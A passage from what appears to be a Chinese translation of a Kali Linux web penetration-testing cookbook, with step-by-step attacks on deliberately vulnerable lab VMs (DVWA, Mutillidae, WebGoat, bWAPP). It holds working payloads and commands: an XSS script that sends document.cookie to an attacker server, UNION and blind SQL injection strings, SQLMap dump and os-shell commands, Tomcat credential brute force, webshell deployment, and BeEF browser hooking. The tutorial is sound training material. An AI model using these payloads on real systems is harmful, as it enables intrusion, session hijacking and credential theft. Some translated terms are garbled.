2. 默认情况下，Burp 的代理开启了拦截，因此它将捕获第一个请求。

我们需要进入 Burp Suite 并点击 Proxy 标签页中的“Intercept is on”按钮。


3. 浏览器将继续加载页面。完成后，我们将使用 `Toggle Security` 在应用程序中设置正确的安全级别：1（傲慢/Arrogant）。

4. 从菜单导航到 `OWASP Top 10 | A1 – SQL Injection | SQLi – Extract Data | User Info`。

5. 在 `Name` 文本框中，为 `Username` 引入 `user<>`（包括符号），并在 `Password` 框中引入 `secret<>`；之后点击 `View Account Details`。
我们将得到一个弹窗，告诉我们输入了一些对应用程序可能危险的字符。

[87]


[Technet24.ir](http://technet24.ir)

*寻找漏洞*

6. 现在我们知道表单中不允许出现符号，而且我们也知道这是客户端验证，因为代理的 HTTP 历史标签页中没有记录请求。让我们尝试绕过此保护。在 Burp Suite 中点击 `Intercept is off` 启用消息拦截。


7. 下一步是发送有效数据，例如 `user` 和 `secret`。

8. 代理将拦截请求。现在我们通过添加禁止字符 `<>` 来更改 `username` 和 `password` 的值。


9. 我们可以发送编辑后的请求并点击 `Intercept is on` 禁用拦截，或者我们可能想发送它并点击 `Forward` 继续拦截消息。对于这个练习，让我们禁用拦截并检查结果：

[88]


# 第 4 章


## 工作原理...

正如之前的配方所示，我们使用代理在请求通过应用程序在客户端建立的验证机制后捕获它，然后通过添加此类验证不允许的字符来修改其内容。

能够拦截和修改请求是任何 Web 应用程序渗透测试中非常重要的方面，不仅是为了绕过某些客户端验证——正如我们在当前和过去配方中所做的那样——为了发送了什么信息并尝试理解应用程序的内部机制。我们可能还需要根据这些理解，方便地添加、删除或替换某些值。

[89]


[Technet24.ir](http://technet24.ir)

*寻找漏洞*

### 识别跨站脚本 (XSS) 漏洞

跨站脚本 (XSS) 是 Web 应用程序中最常见的漏洞之一，事实上，它被认为是 2013 OWASP Top 10 中的第三（https://www.owasp.org/index.php/Top_10_2013-Top_10）。

在这个配方中，我们将看到识别 Web 应用程序跨站脚本漏洞的关键点。

## 如何操作...

1. 登录 DVWA 并进入 `XSS reflected`。
2. 测试漏洞的第一步是观察应用程序的正常响应。在文本框中输入一个名称并点击 `Submit`。我们将使用 `Bob`。


3. 应用程序使用了我们提供的名称来组成一个短语。如果我们引入的不是有效名称，而是特殊字符或数字，会发生什么？让我们尝试 `<'this is the 1st test'>`。


[90]


# 第 4 章

4. 现在我们可以看到在文本框中输入的任何内容都会反映在响应中，也就是说，它变成了响应 HTML 页面的一部分。让我们检查页面源代码来分析它是如何呈现信息的，如下截图所示：


源代码显示输出中的特殊字符没有经过编码，我们发送的特殊字符在没有任何任何预先处理的情况下反映回页面上。`<` 和 `>` 符号是用于定义 HTML 标签的，也许此时我们可以引入一些脚本代码。

5. 尝试引入一个名称后跟一个非常简单的脚本代码。

Bob


[91]


[Technet24.ir](http://technet24.ir)

*寻找漏洞*

页面执行了脚本，导致弹窗显示页面容易受到跨站脚本攻击。

6. 现在检查源代码查看我们的输入发生了什么。


看起来我们的输入被处理得就像 HTML 代码的一部分。浏览器解释了

4. 点击 `Post`。
5. 即使我们没有看到任何变化，页面也会执行我们的脚本。检查 cookies 文件的内容查看结果。在你的 Kali 上，打开终端并运行：

```bash
cat /tmp/cookie_data.txt
```


文件中应该出现一个新条目。

153


[Technet24.ir](http://technet24.ir)

*利用 – 易得的果实*

6. 现在，在受害者浏览器中访问 `http://192.168.56.102/peruggia/`。
7. 点击 `Login`。
8. 在用户名和密码处输入 `admin` 并点击 `Login`。
9. 再次检查 cookies 文件的内容：

```bash
cat /tmp/cookie_data.txt
```


最后一个条目是由受害者浏览器中的用户生成的。

10. 现在在攻击者的浏览器中，确保你没有登录并打开了 `Cookies Manager+`（在 Mantra 菜单中，`Tools | Application Auditing | Cookies Manager+`）。
11. 从 `192.168.56.102`（`vulnerable_vm`）选择 `PHPSESSID` cookie 并点击 `Edit`。
12. 从 `/tmp/cookie_data.txt` 复制最后一个值并将其粘贴到 `Content` 字段中，如下：


13. 点击 `Save`，然后 `Close` 并刷新攻击者浏览器中的页面：

154


# 第 6 章


现在我们通过持久性 XSS 攻击劫持了管理员的会话。

## 工作原理...

简而言之，我们利用应用程序中的 XSS 漏洞，通过 JavaScript 请求将会 cookie 发送到远程服务器；该服务器被配置用于存储会 cookie。然后，我们获取一个会 ID 并将其植入另一个浏览器中，以劫持已身份验证的用户。

我们在 *准备工作* 部分制作的 PHP 文件是在执行 XSS 攻击时保存接收到的 cookies 的文件。

我们引入的注释是一个脚本，它使用 JavaScript 的 `XMLHttpRequest` 对象向我们的恶意服务器发送请求；该请求分步完成：

```javascript
xmlHttp.open("GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true);
```

我们使用 `GET` 方法打开请求，向 `http://192.168.56.1/savecookie.php` URL 添加参数 `cookie`，其值是存储在 `document.cookie` 中的，它是 JavaScript 中存储 cookies 值的变量。最后，设置为 `true` 的最后一个参数告诉浏览器这是一个异步请求，这意味着它不需要等待响应。

```javascript
xmlHttp.send(null);
```

这条最后的指令将请求发送到服务器。在管理员登录并查看包含我们发布的页面后，脚本将执行，管理员的会 cookie 被存储在我们的服务器上。

最后，一旦获取了有效用户的会 ID，我们只需要在浏览器中将自己的会 cookie 替换为它并刷新页面执行操作，就像是该用户一样。

155


[Technet24.ir](http://technet24.ir)

*利用 – 易得的果实*

还有更多...

不仅仅是将会话 cookie 保存到文件中，恶意服务器还可以使用这些 cookie 向应用程序发送请求以冒充合法用户，从而执行诸如添加或删除评论、上传图片或创建新用户（甚至是管理员）的操作。

## 逐步步进式基础 SQL 注入

我们在 *第 4 章*、*寻找漏洞* 中了解了如何检测 SQL 注入。在这个配方中，我们将利用注入并用它从数据库中提取信息。


1. 我们已经知道 DVWA 存在 SQL 注入漏洞，所以让我们使用 OWASP-Mantra 登录并访问 http://192.168.56.102/dvwa/vulnerabilities/sqli/。

2. 检测到存在 SQLi 后，下一步是了解查询语句，更准确地说，是它的查询结果有多少列。在 ID 框中输入任意数字并点击 Submit。

3. 现在，打开 HackBar（按下 `F9`）并点击 Load URL。地址栏中的 URL 现在应该会出现在 HackBar 中。

4. 在 HackBar 中，我们将 `id` 参数的值替换为 `1' order by 1 -- '` 并点击 Execute。

5. 我们不断增加 `order by` 之后的数字并执行请求，直到出现错误为止。在本例中，当按 3 排序时发生了错误。


156


# 第 6 章

6. 现在，我们知道查询结果有两个列。让我们尝试是否可以使用 UNION 语句来提取一些信息；现在将 `id` 的值设置为 `1' union select 1,2 -- '` 并点击 Execute。


7. 这意味着我们可以在该查询查询请求两个值，比如 DBMS（数据库管理系统）的版本和数据库用户；将 `id` 设置为 `1' union select @@version,current_user() -- '` 并点击 Execute。


157


[Technet24.ir](http://technet24.ir)

*漏洞利用 – 手手可得的果实*

8. 让我们寻找更相关的内容，例如应用程序的用户。首先，我们需要找到用户表；将 `id` 设置为 `1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '`。


9. 好的，我们知道数据库（或模式）名为 `dvwa`，我们要找的表是 `users`。由于我们只有两个设置值的位置，我们需要知道表中的哪些列对我们有用；将 `id` 设置为 `1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。


10. 最后，我们确切知道要请求什么；将 `id` 设置为 `1' union select user, password FROM dvwa.users -- '`。

158


# 第 6 章


在 First name（名）字段中，有应用程序的用户名；在 Surname（姓）字段中，有每个用户的密码哈希；我们可以将这些哈希值复制到文本文件中，并使用 John the Ripper 或我们喜欢的密码破解器尝试破解它们。

### 工作原理……

从第一次注入 `1' order by 1 -- '` 到 `1' order by 3 -- '`，我们使用了 SQL 语言中的一项功能，该功能允许我们根据字段或列在查询中声明的顺序对查询结果进行排序。我们利用这一点生成错误，从而获知查询有多少多少列，以便使用它们来创建联合查询。

UNION 语句用于连接两个具有相同列数的查询，通过这种注入，我们可以查询数据库中的几乎任何内容。在本教程中，我们首先检查了它的运行情况是否符合预期，之后我们在用户表中设置了目标，并调查了通往目标的路径。

159


[Technet24.ir](http://technet24.ir)

*漏洞利用 – 手手可得的果实* 第一步是发现数据库和表的名称，我们通过查询 `information_schema` 数据库来实现这一点，该数据库存储了 MySQL 中所有关于数据库、表和列的信息。

一旦我们知道了数据库和表的名称，我们就查询了该表中的列，以确定我们要找的是哪些，结果证明是 `user` 和 `password`。

最后，我们注入了一个查询，请求 `dvwa` 数据库中 `users` 表中的所有用户名和密码。

## 使用 SQLMap 发现和利用 SQL 注入

如前面的教程所示，利用 SQL 注入可能是一个密集的过程。`SQLMap` 是一个包含在 Kali Linux 中的命令行工具，它可以帮助我们通过多种技术在各种数据库中自动检测和利用 SQL 注入。

在本教程中，我们将使用 `SQLMap` 来检测并利用 SQL 注入漏洞，并以此获取应用程序的用户名和密码。

### 如何操作……

1. 访问 http://192.168.56.102/mutillidae。

2. 在 Mutillidae 的菜单中，导航到 OWASP Top 10 | A1 – SQL Injection | SQLi Extract Data | User Info。

3. 尝试任意用户名和密码，例如 `user` 和 `password`，然后点击 View Account Details。

4. 登录将失败，但我们感兴趣的是 URL；进入地址栏并将完整 URL 复制到剪贴板。

5. 现在，在终端窗口中输入以下命令：

```
sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=user-info.php&username=user&password=password&user-info-php-submit-button=View+Account+Details" -p username --current-user --current-db
```

你可以注意到 `-u` 参数的值是复制的 URL。通过 `-p` 我们告诉 `SQLMap` 我们想在 `username` 参数中寻找 SQL 注入，并且在漏洞被利用后让它检索当前数据库用户名和数据库名称。我们只想检索这两个值，因为我们只想知道该 URL 的用户名参数中是否存在 SQL 注入。

160


# 第 6 章

6. 一旦 `SQLMap` 检测到应用程序使用的 DBMS，它会询问我们是否想要跳过对其他 DBMS 的测试，以及是否想要包含对检测特定系统的所有测试（即使它们超出了当前级别的范围）。在这种情况下，我们对跳过其他系统回答 Yes，对包含所有测试回答 No。

7. 一旦发现指定的参数存在漏洞，`SQLMap` 将询问我们是否想测试其他参数，我们对此问题回答 No，然后查看结果：


161


[Technet24.ir](http://technet24.ir)

*漏洞利用 – 手手可得的果实*

8. 如果我们获取用户名和密码，类似于我们在上一个教程中所做的，我们需要知道包含此类信息的表名。在终端中执行以下命令：

```
sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=user-info.php&username=user&password=password&user-info-php-submit-button=View+Account+Details" -p username -D nowasp --tables
```


`SQLMap` 保存了它执行的注入日志，因此第二次攻击会比第一次快。如你所见，我们指定了要提取信息的数据库 (`nowasp`)，并告诉 `SQLMap` 我们想要该数据库的表列表。

9. `accounts` 表是包含我们要信息的表。让我们导出它的内容：

```
sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=user-info.php&username=user&password=password&user-info-php-submit-button=View+Account+Details" -p username -D nowasp -T accounts --dump
```

162


# 第 6 章


我们现在拥有了完整的用户表，可以发现在这种情况下密码没有加密，所以我们可以直接使用它们。

### 工作原理……

`SQLMap` 对给定 URL 和数据中的所有输入进行模糊测试（fuzz），或者仅对 `-p` 选项指定的参数使用 SQL 注入字符串，并解释响应以发现是否存在漏洞。一种良好的做法是不对所有输入进行模糊测试，最好使用 `SQLMap` 利用已知的注入，并尽可能通过提供我们拥有的可用信息（如漏洞参数、DBMS 类型等）来缩小搜索范围。在开启所有可能性寻找注入可能会花费大量时间，并在网络中产生非常可疑的流量。


在本配谱中，我们已经知道 `username` 参数存在 SQL 注入漏洞（因为我们使用了 Mutillidae 的 SQL 注入测试页面）。在第一次攻击中，我们只是想确认那里存在注入点，并请求了一些非常基础的信息：用户名（`--current-user`）和数据库名（`--current-db`）。

在第二次攻击中，我们使用 `-D` 选项指定了想要查询的数据库（并使用了上一次攻击获取的名称），还通过 `--tables` 请求了它包含的表列表。

在知道想要获取哪个表（`-T accounts`）后，我们告诉 `SQLMap` 使用 `--dump` 导出其内容。

还有更多操作……

SQLMap 还可以向 POST 请求注入输入变量，要做到这一点，我们只需要添加 `--data` 选项，后面跟着引号内的 POST 数据，例如：`--data "username=test&password=test"`。

有时候，我们需要在某些应用程序中通过身份验证才能访问该应用程序的漏洞 URL；如果发生这种情况，我们可以使用 `--cookie` 选项将有效的 session cookie 传递给 `SQLMap`：

`--cookie "PHPSESSID=ckleiuvrv60fs01hlj72eeh37"`

这对于测试 cookie 值中的注入也非常有用。

该工具的另一个有趣功能是它可以为我们提供一个 SQL 壳，我们可以在其中执行 SQL 查询，就像我们使用 `--sql-shell` 选项直接连接到数据库一样；更有趣的是，我们可以使用 `--os-shell` 在数据库服务器上获取命令执行（这在注入 Microsoft SQL Server 时特别有用）。

要了解 `SQLMap` 拥的所有选项和功能，你可以运行：`sqlmap --help`

### 另见

Kali Linux 还包含了其他能够检测和利用 SQL 注入漏洞的工具，这些工具可能比 SQLMap 或与 SQLMap 配合使用：

- `sqlninja`: 一个专门用于 MS SQL Server 攻击的流行工具。
- `Bbqsql`: 一个用 Python 编写的盲 SQL 注入框架。
- `jsql`: 一个基于 Java 具有完全自动化 GUI 的工具，我们只需要引入 URL 并点击按钮即可。
- `Metasploit`: 它包含了针对不同 DBMS 的各种 SQL 注入模块。

### 使用 Metasploit 攻击 Tomcat 密码

Apache Tomcat，或简单称为 Tomcat，是世界上 Java Web 应用最广泛使用的服务器之一。发现一个留有默认配置的 Tomcat 服务器也非常常见，在这些配置中，发现某个服务器暴露了 Web 管理器是意料之外的常态，该程序允许管理员启动、停止、添加和删除服务器中的应用程序。

# 第 6 章

在本配谱中，我们将使用一个 Metasploit 模块对 Tomcat 服务器进行字典攻击，以获取其管理器应用的访问权限。

## 准备工作

在开始使用 Metasploit Framework 之前，我们需要在 root root 终端中启动数据库服务：

```
service postgresql start
```

### 如何操作……

1. 启动 Metasploit 控制台：
```bash
msfconsole
```

2. 启动后，我们需要加载正确的模块并在 `msf>` 提示符输入以下内容：
```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

3. 我们可能想查看它使用了哪些参数：
```bash
show options
```

4. 现在，我们设置目标主机：
```bash
set rhosts 192.168.56.102
```

5. 为了让运行稍快一点（但不要太快），我们增加了线程数：
```bash
set threads 5
```

6. 同样，我们不希望服务器因为请求过多而崩溃，所以我们降低了破解速度：
```bash
set bruteforce_speed 3
```

7. 其余参数在我们的情况下也一样，让我们运行攻击吧：
```bash
run
```

在几次尝试失败后，我们将找到一个有效密码；标记有绿色 `[+]` 符号的那个。

### 工作原理……

默认情况下 Tomcat 使用 TCP 端口 8080 并在 `/manager/` 下有一个管理器。该应用程序使用基础 HTTP 身份认证。我们刚刚使用的 Metasploit 辅助模块（`tomcat_mgr_login`）有一些值得这里的配置选项：

- `BLANK_PASSWORDS`: 为每个尝试的用户添加一个空密码测试。
- `PASSWORD`: 如果我们想用一个密码测试多个用户，或者添加一个未包含在列表特定密码，它很有用。
- `PASS_FILE`: 我们在测试中使用的密码列表。
- `Proxies`: 如果我们需要通过代理到达目标或为了避免检测，这就是我们需要配置的选项。
- `RHOSTS`: 我们想要测试的主机、主机（空格分隔）或主机文件（`file:/path/to/file/with/hosts`）。
- `RPORT`: Tomcat 使用的主机 TCP 端口。
- `STOP_ON_SUCCESS`: 在主机中找到有效密码时停止尝试该主机。
- `TARGETERURI`: 管理器在主机内部的位置。
- `USERNAME`: 定义要测试的特定用户名，可以单独测试，也可以添加到 `USER_FILE` 定义的列表中。
- `USER_PASS_FILE`: 包含要测试的“用户名 密码”组合的文件。
- `USER_AS_PASS`: 尝试列表中的每个用户名作为其密码。

### 另见

这种攻击也可以 `THC-Hydra` 执行，使用 `http-head` 作为服务，并使用 `-L` 选项加载用户列表，`-P` 加载密码。

### 使用 Tomcat Manager 执行代码

在上配谱中我们获取了 Tomcat 的凭据，并提到它可以允许我们执行代码。在本配谱中，我们将使用此类凭据登录管理器并上传一个允许我们在服务器上执行操作系统的应用程序。

### 如何操作……

1. 访问 `http://192.168.56.102:8080/manager/html`。

2. 当要求用户名和密码时，使用上配谱获取的凭据：`root` 和 `owaspbwa`。

3. 进入管理器后，查找部署 WAR 文件并点击 `Browse…` 按钮。

4. Kali 在 `/usr/share/laudanum` 中包含了 webshell 集，浏览那里并选择文件 `/usr/share/laudanum/jsp/cmd.war`。

5. 加载后，点击 `Deploy`。

6. 验证你有一个名为 `cmd` 的新应用程序。

7. 尝试一下，访问 `http://192.168.56.102:8080/cmd/cmd.jsp`。

8. 在文本框中尝试命令，例如：`ifconfig`。

9. 我们看到我们可以执行命令，但为了知道是什么用户以及权限级别，尝试 `whoami` 命令。可以看到 Tomcat 以 root 权限运行，这意味着我们对它拥有完全控制权并可以执行任何操作，例如创建或删除用户、安装软件、配置操作系统选项等等。

### 工作原理……

一旦我们获取了 Tomcat 管理器的凭据，攻击流程非常直接；我们只需要一个足够用的应用程序。udanum 包含在 Kali Linux 中，是一个适用于各种语言和 Web 服务器（包括 PHP、ASP、ASP.NET 和 JSP）的 webshell 集合。对于渗透测试来说，还有什么比 webshell 更实用的吗？


Tomcat 能够将封装为 `WAR`（Web 归档）格式的 Web 应用程序部署到服务器中。我们曾使用此功能上传了 `udanum` 中的 `webshell`。在上传并部署后，我们只需访问它并执行命令，就发现拥有该系统的 root 权限。

170

# 高级利用 - 第 7 部分

## 第 7 章

在本章中，我们将涵盖：
- 在 `Exploit-DB` 中搜索 Web 服务器漏洞
- 利用 `Heartbleed` 漏洞
- 使用 `BeEF` 利用 `XSS`
- 利用 `Blind SQLi`
- 使用 `SQLMap` 获取数据库信息
- 执行跨站请求伪造攻击
- 使用 `Shellshock` 执行命令
- 使用字典通过 `John the Ripper` 破解密码哈希值
- 使用 `hashcat` 通过暴力破解破解密码哈希值

## 引言
在受益于一些相对容易发现和利用的漏洞之后，我们现在将转向其他可能需要我们作为渗透测试人员付出更多精力的问题。

在本章中，我们将搜索漏洞利用、编译程序、搭建服务器并破解密码，这些将允许我们访问敏感信息并在服务器和应用程序中执行特权函数。

171

[Technet24.ir](http://technet24.ir) - 高级利用

### 在 Exploit-DB 中搜索 Web 服务器漏洞
我们不时会在服务器的操作系统、Web 应用程序使用的库、活动服务中发现漏洞，或者是另一个无法从浏览器或网络代理利用的安全漏洞。在这些情况下，我们可以使用 `Metasploit` 的漏洞利用集，或者如果我们需要的不在 `Metasploit` 中，我们可以在 `Exploit-DB` 中搜索。

Kali Linux 包含了 `Exploit-DB` 中漏洞的副本供离线使用；在本教程中，我们将使用 Kali 自带的命令来探索数据库并找到我们需要的漏洞利用。

### 如何操作
1. 打开终端。
2. 输入以下命令：
```
searchsploit heartbleed
```
3. 下一步是将漏洞程序复制到我们可以修改它的地方（如果需要的话），然后按照所示进行编译：
```
mkdir heartbleed
cd heartbleed
cp /usr/share/exploitdb/platforms/remote/32998.c .
```
4. 通常，漏洞程序的前几行包含了一些关于自身以及如何使用它们的信息，如下所示：
```
head -n 30 32998.c
```
172

## 第 7 章
5. 在这种情况下，漏洞程序是 `C` 语言编写的，因此我们需要对其编译才能运行。文件中显示的编译命令（`gcc -lssl -lssl3 -lcrypto heartbleed.c -o heartbleed`）在 Kali Linux 中无法正常运行，我们需要使用以下命令：
```
gcc 32998.c -o heartbleed -Wl,-Bstatic -lssl -Wl,-dynamic -lssl3 -lcrypto
```
173

### 利用 Heartbleed 漏洞
### 工作原理
`searchsploit` 命令是 Kali Linux 上的本地 `Exploit-DB` 副本的接口，它会在漏洞程序的标题和描述中查找字符串并显示结果。

漏洞程序位于 `/usr/share/exploitdb/platforms` 目录。`searchsploit` 显示的漏洞路径是相对于该目录的，这就是为什么当我们复制文件时使用了完整路径。漏洞程序也以它们提交到 `Exploit-DB` 时分配的漏洞编号命名。

编译步骤的方法与源代码中推荐的方法不同，因为基于 Debian 的发行版中的 `OpenSSL` 库由于其构建方式而缺少某些功能。

### 更多内容
在生产系统中使用漏洞程序之前，监控其效果和影响是非常重要的。通常，`Exploit-DB` 中的漏洞程序是可信的，尽管它们通常需要针对特定情况进行一些调整才能工作，但其中某些可能无法实现其声称的功能；因此，我们需要先在实验室这样的控制环境中对其进行测试。


在我们开始之前，我们需要确保已经启动了 BeEF 服务，并且能够访问 `http://127.0.0.1:3000/ui/panel`（使用 `beef/beef` 作为登录凭据）。

1. Kali Linux 中的默认 BeEF 服务无法工作，因此我们不能简单地运行 `beef-xss` 来让 BeEF 运行，相反，我们需要在安装目录中运行它，如下所示：

```
cd /usr/share/beef-xss/
./beef
```

178


## 第 7 章


2. 现在，访问 `http://127.0.0.1:3000/ui/panel` 并使用 `beef` 作为用户名和密码。如果成功，我们就可以继续了。

## 如何操作...

1. BeEF 需要客户端浏览器调用 `hook.js` 文件，该文件将浏览器挂钩到我们的 BeEF 服务器，我们将使用一个存在 XSS 漏洞的应用程序让用户调用它。若要尝试一个简单的 XSS 测试，访问 `http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

179


[Technet24.ir](http://technet24.ir)
*高级利用*

2. 这是一个存在 XSS 漏洞的应用程序，因此现在我们需要修改脚本以调用 `hook.js`。假设你是受害者，收到了一封包含 `http://192.168.56.102/bodgeit/search.jsp?q=` 链接的邮件，访问该链接看到以下内容：


3. 现在，在 BeEF 面板中，攻击者将看到一个新的在线浏览器：


4. 攻击者现在的最佳步骤是生成一些持久化机制，至少在用户于受攻击域名内导航时。进入攻击者浏览器中的 Commands（命令）选项卡，从那里进入 `Persistence | Man-In-The-Browser`，然后点击 Execute（执行）。执行后，在 `Module Results History`（模块结果历史）中选择相关命令检查结果如下：

180


## 第 7 章


5. 如果我们检查浏览器中的 Logs（日志）选项卡，可能会看到 BeEF 正在存储用户在浏览器窗口执行的操作信息，如输入和点击，正如此处所示：


181


[Technet24.ir](http://technet24.ir)
*高级利用*

6. 我们还可以通过 `Commands | Browser | Hooked Domain | Get Cookie` 获取会话 cookie，如图：


## 工作原理...

在这个用例中，我们使用了 `script` 标签的 `src` 属性来调用外部 JavaScript 文件，在这种情况下是指向我们 BeEF 服务器的挂钩。`hook.js` 文件与服务器通信、执行命令并返回响应，以便攻击者查看它们；它在客户端浏览器中不打印任何内容，因此受害者通常不知道其浏览器已被入侵。在让受害者执行我们的挂钩脚本后，我们使用了持久化工具 `Man In The Browser` 让浏览器在用户每次点击同一域名的链接时都执行 AJAX 请求，这样该请求就能保持挂钩并加载新页面。我们还看到 BeEF 的日志记录了用户在页面上执行的每一个操作，我们能够从中获取用户名和密码。此外还可以远程获取会话 cookie，这可能允许攻击者劫持受害者的会话。

### 更多功能...

BeEF 拥有惊人的功能，从确定受害者使用的浏览器类型到对已知漏洞的利用，再到对客户端系统的完全控制。一些有趣的功能如下：

- `Social Engineering/Pretty Theft`：这是一个社会工程学工具，允许我们模拟类似于 Facebook、LinkedIn 等其他常见服务的登录弹出窗口。
- `Browser/Webcam` 和 `Browser/Webcam HTML5`：虽然显而易见，这两个模块能够利用宽松的配置来激活受害者的摄像头，第一个使用隐藏嵌入，另一个使用 HTML5。
- `Exploits`：包含一组针对特定情况的利用程序，其中一些利用服务器，另一些则利用客户端浏览器。

182


## 第 7 章

- `Browser/Hooked Domain/Getored Credentials`：尝试从浏览器中提取存储的受攻击域名的用户名和密码。
- `Use as Proxy`：如果我们右键点击被挂钩的浏览器，将获得作为代理使用的选项，这使客户端浏览器成为 Web 代理；这可能让我们获得探索受害者内部网络的机会。

BeEF 中还有许多其他对渗透测试有用的攻击和模块；如果你想学习更多，可以检查官方 Wiki：`https://github.com/beefproject/beef/wiki`

### 利用盲 SQL 注入

在*第 6 章*，*利用——触手可得的果实*中，我们利用了基于错误的 SQL 注入，现在我们将使用 Burp Suite 的 Intruder 作为主要工具来识别并利用盲 SQL 注入。

## 准备工作

我们需要浏览器使用 Burp Suite 作为此用例的代理。

## 如何操作...

1. 访问 `http://192.168.56.102/WebGoat` 并使用 `webgoat` 作为用户名和密码登录。
2. 点击 `Start WebGoat` 进入 WebGoat 主页。
3. 进入 `Injection Flaws | Blind Numeric Injection`。
4. 页面显示练习的目标是找到给定行中给定字段的值。我们的做法稍有不同，但让我们先看看它是如何工作的：保持 101 为账号数字并点击 `Go!`。

5. 现在尝试 `1011`。


183


[Technet24.ir](http://technet24.ir)
*高级利用*

到目前为止，我们看到了应用程序的行为，它只告诉我们账号数字是否有效。
6. 让我们尝试注入，因为我们在使用整数进行搜索。提交 `101` 和 `1=1`。

7. 现在尝试 `101` 和 `1=2`。

看起来我们在这里有注入，注入真语句，假语句时出现无效账号的消息。
8. 在这个用例中，我们将发现连接数据库的用户，所以我们首先需要知道用户名的长度。尝试：`101 AND 1=char_length(current_user)`。
9. 下一步是在 Burp Suite 历史中找到此请求并将其发送到 intruder，如下所示：


184


## 第 7 章

10. 发送到 intruder 后，我们可以清除所有负载标记符，并在 `AND` 之后添加一个新的，如下所示：

11. 转到 payload 部分并将负载类型设置为 Numbers。
12. 将负载类型设置为 Sequential，从 1 到 15，步长为 1。

13. 为了判断响应是正面还是否定，进入 Intruder 的 options，清空 Grep-Match 列表并添加 `Invalid account number` 和 `Account number is valid`。

我们需要在所有用于攻击的 intruder 选项卡中进行此更改。

185


[Technet24.ir](http://technet24.ir)
*高级利用*
14. 为了应用程序流畅，在 Redirections 部分选择 Always 并勾选 Process cookies on Redirections。

我们需要在所有用于攻击的 intruder 选项卡中进行此更改。
15. 启动攻击。

在数字 2 上发现了有效响应，这意味着用户名只有两个字符长度。
16. 现在，我们将猜测用户名的每个字符，从猜测第一个字母开始。在应用程序中提交：`101 AND 1=(current_user LIKE 'b%')`。


17. 再次，我们将请求发送到入侵者（intruder），并在 b 中只留下一个负载标记，即名称的第一个字母。


186


## 第 7 章

18. 我们的负载将是一个简单的列表，包含所有的小写和大写字母（从 a 到 z 和 A 到 Z）：


19. 在此入侵者标签页中重复步骤 13 和 14 并开始攻击，如此处所示：


我们用户名的第一个字母是 S。

20. 现在，我们需要找到用户名的第二个字符，因此向应用程序的文本框提交 `101 AND 1=(current_user='Sa')` 并发送请求到入侵者。

21. 现在，我们的负载标记将是紧随 S 之后的 "a"，换句话说，就是用户名的第二个字母。


187


[Technet24.ir](http://technet24.ir)

*高级利用*

22. 重复步骤 18 和 19。在我们的示例中，我们只在列表中使用了大写字母，因为如果第一个字母是大写的，那么用户名中的两个字符也很有可能都是大写的。


用户名的第二个字符是 A，因此应用程序用于查询的数据库用户是 SA。SA 在微软的 SQL Server 数据库中代表 System Administrator（系统管理员）。

### 工作原理……

利用盲 SQL 注入比基于错误的注入花费更多的精力和时间；在本配方中，我们看到了如何获取连接到数据库的用户名称，而在第 6 章“SQL 注入利用——轻而易得的果实”中，我们使用单个命令来获取。

我们本可以使用字典法来检查当前用户是否在名称列表中，但将花费更多时间，而且该名称可能不在列表中。

我们最初识别了漏洞，并揭示了告诉我们请求是真是假的消息。

一旦我们知道存在注入以及正向响应长什么样，我们就继续询问当前用户名的长度，询问数据库：当前用户名的长度是 1 吗？是 2 吗？等等，直到发现长度。知道何时停止查找用户名中的字符是有用的。

找到长度后，我们使用相同的技术来发现第一个字母，`LIKE 'b%'` 语句告诉 SQL 解释器第一个字母是否为 b；其余部分不重要，它可以是任何字符（% 是大多数 SQL 实现中的通配符字符）。在这里，我们看到第一个字母是 S。使用相同的原理，我们找到了第二个字符并得出了名称。

### 还有更多……

这种攻击可以通过发现正在使用的 DBMS 及其版本继续进行，然后使用特定厂商的命令查看用户是否具有管理员权限。如果他们，你就可以提取所有的用户名和密码、激活远程连接以及许多其他事情。

188


## 第 7 章

你可以尝试的另一个方法是使用 SQLMap 来利用这种注入。

还有一种盲注，即基于时间的盲 SQL 注入（Time-Based Blind SQL Injection），在这种情况下，我们没有视觉线索判断命令是否已执行（例如有效或无效账户的消息）；相反，我们需要向数据库发送一个 sleep 命令，如果响应时间比我们发送的时间稍长，那么它就是一个正向响应。这种攻击非常慢，因为有时需要等待 30 秒才能获取一个字符。在这些情况下，拥有 `sqlninja` 或 `SQLMap` 等工具非常有用的 [(https://www.owasp.org/index.php/Blind_SQL_Injection](https://www.owasp.org/index.php/Blind_SQL_Injection))。

### 使用 SQLMap 获取数据库信息

在第 6 章“SQL 注入——轻而易得的果实”中，我们使用 SQLMap 从数据库中提取信息和表内容。这非常有用但并不是该工具的唯一优点，也不是最有趣的。在本配方中，我们将使用它提取数据库用户和密码的信息，这可能允许我们访问系统而不只是应用程序。

### 如何操作……

1. 运行 Bee-box 虚拟机并将 BurpSuite 作为代理监听，登录并选择 SQL 注入（POST/Search）漏洞。
2. 输入任何电影名称并点击 Search。
3. 现在让我们进入 BurpSuite 并检查我们的请求：


189


[Technet24.ir](http://technet24.ir)

*高级利用*

4. 现在，进入 Kali Linux 终端并输入以下命令：

```
sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPSESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data="title=test&action=search" -p title --is-dba
```


我们可以看到成功的注入。当前用户是 DBA，这意味着该用户可以在数据库上执行管理任务，例如添加用户和更改密码。

5. 现在我们想要提取更多信息，例如用户和密码，因此在终端中输入以下命令：

```
sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPSESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data="title=test&action=search" -p title --is-dba --users --passwords
```


我们现在有了数据库用户列表及其哈希密码。

190


## 第 7 章

6. 我们还可以获得一个 shell，允许我们直接向数据库发送 SQL 查询，如此处所示：

```
sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPSESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data="title=test&action=search" -p title --sql-shell
```


### 工作原理……

一旦我们知道存在 SQL 注入，我们就使用 SQLMap 来利用它，如下所示：

```
